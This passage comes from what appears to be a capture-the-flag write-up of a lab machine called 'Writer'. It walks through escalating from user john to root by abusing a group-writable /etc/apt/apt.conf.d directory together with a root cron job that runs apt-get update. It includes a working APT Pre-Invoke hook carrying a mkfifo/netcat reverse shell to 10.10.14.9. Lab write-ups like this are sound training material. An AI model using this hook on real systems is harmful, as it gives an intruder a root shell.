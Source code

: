 ```bash
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Wed Jul 28 09:19:58 2021 from 10.10.14.19
john@writer:~$
```

Start to enumerate john:

```bash
john@writer:~/.ssh$ sudo -l
[sudo] password for john: 
john@writer:~/.ssh$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
```

```bash
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                                                                                                                 
  Group john:                                                                                                                                                                                                                                
                                                                                                                                                                                                                                             
  Group management:
/etc/apt/apt.conf.d
```

If you check this folder permission, you can see that the dot has all permissions for management. Also, we can find with pspy64 this command that runs periodically:

```bash
2021/08/17 19:52:01 CMD: UID=0    PID=269106 | /usr/sbin/CRON -f 
2021/08/17 19:52:01 CMD: UID=0    PID=269105 | /usr/bin/apt-get update
```

This article is useful for this case: [https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/).

We have a cronjob and also has permissions for `apt.conf.d`. So, just inject our netcat reverse shell:

```bash
john@writer:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 9999 >/tmp/f"};' > pwn
john@writer:/etc/apt/apt.conf.d$ ls -la
total 52
drwxrwxr-x 2 root management 4096 Aug 17 19:56 .
drwxr-xr-x 7 root root       4096 Jul  9 10:59 ..
-rw-r--r-- 1 root root        630 Apr  9  2020 01autoremove
-rw-r--r-- 1 root root         92 Apr  9  2020 01-vendor-ubuntu
-rw-r--r-- 1 root root        129 Dec  4  2020 10periodic
-rw-r--r-- 1 root root        108 Dec  4  2020 15update-stamp
-rw-r--r-- 1 root root         85 Dec  4  2020 20archive
-rw-r--r-- 1 root root       1040 Sep 23  2020 20packagekit
-rw-r--r-- 1 root root        114 Nov 19  2020 20snapd.conf
-rw-r--r-- 1 root root        625 Oct  7  2019 50command-not-found
-rw-r--r-- 1 root root        182 Aug  3  2019 70debconf
-rw-r--r-- 1 root root        305 Dec  4  2020 99update-notifier
-rw-rw-r-- 1 john john        107 Aug 17 19:56 pwn
john@writer:/etc/apt/apt.conf.d$
```
